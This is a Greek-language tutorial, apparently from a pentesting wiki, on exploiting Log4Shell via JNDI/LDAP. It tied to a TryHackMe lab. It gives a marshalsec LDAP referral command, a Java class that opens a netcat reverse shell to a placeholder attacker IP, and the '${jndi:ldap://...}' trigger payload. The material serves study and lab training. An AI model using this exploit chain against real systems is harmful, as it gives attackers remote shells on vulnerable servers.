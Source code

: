 {% hint style="info" %}
Οι διακομιστές που εκτελούνται σε εκδόσεις JDK άνω των 6u141, 7u131 ή 8u121 είναι προστατευμένοι από την επίθεση φόρτωσης κλάσης LDAP. Αυτό οφείλεται στην προεπιλεγμένη απενεργοποίηση του `com.sun.jndi.ldap.object.trustURLCodebase`, που εμποδίζει το JNDI να φορτώσει μια απομακρυσμένη βάση κώδικα μέσω LDAP. Ωστόσο, είναι κρίσιμο να σημειωθεί ότι αυτές οι εκδόσεις **δεν είναι προστατευμένες από την επίθεση αποσειριοποίησης**.

Για τους επιτιθέμενους που στοχεύουν να εκμεταλλευτούν αυτές τις υψηλότερες εκδόσεις JDK, είναι απαραίτητο να εκμεταλλευτούν ένα **έμπιστο gadget** μέσα στην εφαρμογή Java. Εργαλεία όπως το ysoserial ή το JNDIExploit χρησιμοποιούνται συχνά για αυτόν τον σκοπό. Αντίθετα, η εκμετάλλευση χαμηλότερων εκδόσεων JDK είναι σχετικά πιο εύκολη καθώς αυτές οι εκδόσεις μπορούν να χειραγωγηθούν για να φορτώσουν και να εκτελέσουν αυθαίρετες κλάσεις.

Για **περισσότερες πληροφορίες** (_όπως περιορισμούς σε RMI και CORBA vectors_) **ελέγξτε την προηγούμενη ενότητα Αναφοράς Ονομάτων JNDI** ή [https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/)
{% endhint %}

### RCE - Marshalsec με προσαρμοσμένο payload

Μπορείτε να το δοκιμάσετε στο **THM box:** [**https://tryhackme.com/room/solar**](https://tryhackme.com/room/solar)

Χρησιμοποιήστε το εργαλείο [**marshalsec**](https://github.com/mbechler/marshalsec) (η έκδοση jar είναι διαθέσιμη [**εδώ**](https://github.com/RandomRobbieBF/marshalsec-jar)). Αυτή η προσέγγιση δημιουργεί έναν διακομιστή παραπομπής LDAP για να ανακατευθύνει τις συνδέσεις σε έναν δευτερεύοντα διακομιστή HTTP όπου θα φιλοξενηθεί η εκμετάλλευση:
```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<your_ip_http_server>:8000/#Exploit"
```
Για να προτρέψετε τον στόχο να φορτώσει έναν κώδικα reverse shell, δημιουργήστε ένα αρχείο Java με το όνομα `Exploit.java` με το παρακάτω περιεχόμενο:
```java
public class Exploit {
static {
try {
java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
} catch (Exception e) {
e.printStackTrace();
}
}
}
```
Συγκεντρώστε το αρχείο Java σε ένα αρχείο κλάσης χρησιμοποιώντας: `javac Exploit.java -source 8 -target 8`. Στη συνέχεια, ξεκινήστε έναν **HTTP server** στον κατάλογο που περιέχει το αρχείο κλάσης με: `python3 -m http.server`. Βεβαιωθείτε ότι ο **marshalsec LDAP server** αναφέρεται σε αυτόν τον HTTP server.

Ενεργοποιήστε την εκτέλεση της κλάσης exploit στον ευάλωτο web server αποστέλλοντας ένα payload που μοιάζει με:
```bash
${jndi:ldap://<LDAP_IP>:1389/Exploit}
```
**Σημείωση:** Αυτή η εκμετάλλευση εξαρτάται από τη ρύθμιση του Java για να επιτρέπει τη φόρτωση απομακρυσμένων κωδίκων μέσω LDAP. Αν αυτό δεν είναι επιτρεπτό, σκεφτείτε να εκμεταλλευτείτε μια αξιόπιστη κλάση για αυθαίρετη εκτέλεση κώδικα.
